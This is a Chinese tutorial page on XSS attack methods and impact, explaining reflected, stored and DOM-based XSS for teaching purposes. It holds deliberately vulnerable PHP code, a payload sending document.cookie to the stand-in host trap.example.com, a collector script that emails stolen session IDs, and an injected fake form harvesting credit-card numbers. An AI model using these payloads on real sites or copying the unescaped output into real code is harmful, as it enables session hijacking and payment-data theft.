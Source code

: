 跨站脚本（基础篇）之攻击手段与影响
=================================================================
为了更好地理解`XSS`的攻击方法与影响，首先让我们来看一下 **`XSS`被恶意使用的`3`种方式**：
+ **窃取`Cookie`值**
+ **通过`JavaScript`攻击**
+ **篡改网页**

### XSS窃取Cookie值
假设以下`PHP`脚本是搜索页面的一部分。该页面需要用户登录后才能使用，页面上显示的是搜索关键词。
```php
<?php
    session_start();
    //登录校验（略）
?>
<body>
检索关键词：<?php echo $_GET['keyword']; ?><br>
以下略
</body>
```
先来看一下正常情况，假设关键词为“Haskell”，URL如下：http://example.jp/43/43-001.php?keyword=Haskell 。

再看一下攻击的例子：http://example.jp/43/43-001.php?keyword=<script>alert(document.cookie)</script>

上面这个攻击的例子中，**保存在`Cookie`中的会话`ID(PHPSESSID)`会被显示出来。表明外部注入的`Javascript`成功
读取到了会话`ID`**。

#### 使用被动攻击盗取他人的Cookie值
能够显示自己的会话`ID`对于攻击者来说并无太大意义，**在实际的攻击中，攻击者需要将存在隐患的网站的用户引诱至恶意网站**。
以下就是恶意网站的示例：
```php
<html><body>
商品大甩卖
<br><br>
<iframe width=320 height=100 src="http://example.jp/43/43-001.php?keyword=<script>window.location='http://trap.example.com/43/43-901.php?sid='%2Bdocument.cookie;</script>">
</frame>
```
**恶意网站的`HTML`使用了`iframe`元素来显示存在隐患的网站的页面（`/43/43-001.php`），并对其实施`XSS`攻击**。
```
实际的攻击中，攻击者会通过设置CSS将iframe部分隐藏，以不被用户看到
```
攻击流程：
+ 恶意网站的`iframe`中显示出存在隐患的网站
+ 存在隐患的网站遭受攻击后，`Cookie`值被添加到`URL`的查询字符串中，页面跳转到信息收集页面
+ 信息收集页面将接收到的`Cookie`值通过邮件发送给攻击者

以下为收集信息用的脚本，它会将收集到的会话`ID`发送给攻击者的邮箱（假定为`wasbook@example.jp`）。
```php
<?php
    mb_language('Japanese');
    $sid = $_GET['sid'];
    mb_send_mail('wasbook@example.jp','攻击成功','会话ID:' . $sid, 'From: cracked@trap.example.com');
?>
<body>攻击成功<br>
<?php echo $sid; ?>
</body>
```
如此这般，**如果用户是在登录了存在隐患的网站之后浏览的恶意网页**，就会中了`XSS`的招而使自己的会话`ID`通过邮件发送给攻击者。
攻击者利用得到的会话`ID`，就可以伪装成其他用户肆意忘为。

### 通过JavaScript攻击
在上面的例子中，攻击者利用`JavaScript`读取到了用户的`Cookie`值，然而，事实上利用`JavaScript`实施的攻击却远不止如此。
另外，随着`Ajax`技术的风靡，通过`JavaScript`调用`Web`应用的各种功能的程序（`API`）在网站中的分量正在逐步增加。
由于`API`也能被恶意用于实施攻击，因此，综合使用`XSS`与`JavaScript`的攻击实施起来反而变得更容易了。

#### 篡改页面
示例，某新发布的手机预购网站。该网站由于存在`XSS`漏洞，因此便能够对网页中的`HTML`元素进行添加/更改/删除，
或者更改表单发送的目标。

网页脚本的主干内容如下。由于该页面兼任着输入页面和编辑页面，因此各个输入框都设置了初始值。而`XSS`漏洞就存在于此。
```php
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<html>
<head><title>全新手机预约</title></head>
<body>
<form action="" method="POST">
姓名<input size="20" name="name" value="<?php echo @$_POST['name']; ?>"><br>
地址<input size="20" name="addr" value="<?php echo @$_POST['addr']; ?>"><br>
电话号码<input size="20" name="tel" value="<?php echo @$_POST['tel']; ?>"><br>
型号<input size="10" name="kind" value="<?php echo @$_POST['kind']; ?>"><br>
数量<input size="5" name="num" value="<?php echo @$_POST['num']; ?>"><br>
<br>
<input type=submit value="申请"></form>
</body>
</html>
```
**虽然该网站没有认证功能，但同样能对其实施`XSS`攻击**。

以下`HTML`(`43-902.html`)为对“某新款手机的预约网站”进行`XSS`攻击的恶意网页。
**该页面同时也可以作为不使用`JavaScript`的`XSS`攻击的示例**，页面上通过样式将攻击用表单的提交
按钮伪装成了链接的样子。
```php
<html>
<head><title>使用信用卡预约全新手机</title></head>
<body>
现在可以使用信用卡预约手机，赶紧下单吧。
<BR>
<form action="http://example.jp/43/43-002.php" method="POST">
<input name="name" type="hidden" value='">
    </form><form style=top:5px;left:5px;position:absolute;z-index:99;background-color:white 
    action=http://trap.example.com/43/43-903.php method=POST>请使用信用卡支付预购定金<br>姓名
    <input size=20 name=name><br>地址<input size=20 name=addr><br>电话号码<input size=20 name=tel>
    <br>型号<input size=10 name=kind>数量<input size=5 name=num><br>信用卡号<input size=16 name=card>
    有效期限<input size=5 name=thru><br><input value=申请 type=submit><br><br><br><br></from>'><!-注入的HTML->

<input style="cursor:pointer;text-decoration:underline;color:blue;
border:none;background:transparent;font-size:100%;" type="submit" value="手机预约中心"> <!-伪装成链接的按键->
</form>
</body>
</html>
```
恶意网页通过下列手段隐藏原先的`form`并添加新的`form`，从而改变页面：
+ **使用</form>使原先页面的`form`元素结束**
+ **添加新的form元素，并指定`style`如下：**
    + 通过指定绝对座标将`form`的位置定位于左上角
    + 将`z-index`设置为很大的值（`99`），确保其堆叠顺序在原先`form`的前面
    + 将背景色设计为白色，从而隐藏原先的`form`
+ **将`action`的`URL`指定为恶意网站**

页面上被添加了“请使用信用卡支付预购定金”和输入信用卡卡号及有效期限的文本框。此外，尽管页面上看不出来，
但`form`元素的`action`属性已经被变成了恶意网站的`URL`。

然而，浏览器地址栏上显示的`URL`却同先前的手机预购网站完全一致。此外，虽然本例没有涉及，**但事实上当网站为`https`时
其证书也会被显示为正规。因此，用户便找不到任何蛛丝马迹来识破这一伪装的页面**。

由此可见，**`XSS`并非一定会使用`JavaScript`，因此，如果防范策略仅局限于`script`元素（例如将“script”单词全部删除），
攻击者还是会有可乘之机**。而对用户来说，仅在浏览器中禁止`Javascript`也是不能得以高枕无忧的。

#### 反射型XSS与存储型XSS
根据攻击用`JavaScript`代码的存储地点将`XSS`攻击分类。

**如果攻击用`JavaScript`代码位于攻击目标网站之外的其他网站（恶意网站或邮件中的`URL`）,就称之为反射型`XSS`**。
最先介绍的`43-001.php`中的`XSS`攻击模式，就属于反射型`XSS`。**反射型`XSS`多发生于网页将用户的输入值原封不动地显示
出来的情况下。其中，输入值确认页面就是一个典型的例子**。

与此相对，**有时攻击者也会将攻击用`JavaScript`代码保存至攻击对象的数据库中。这种模式的`XSS`就被称为存储型`XSS`或持久型`XSS`**。
**存储型`XSS`的典型攻击对象为`Web`邮箱客户端以及社交网站**。存储型`XSS`无需攻击者费尽心思将用户引诱至恶意网站，
而且即使是戒心很重的用户也会有很大的几率中招，因此对攻击者来说益处多多。

存储型`XSS`产生的原因同样也位于生成`HTML`的地方。

除此之外，当网页中存在不通过服务器而仅依靠前端`JavaScript`来显示的参数时，就有可能会招致`DOM based XSS`这种
类型的`XSS`发生。




















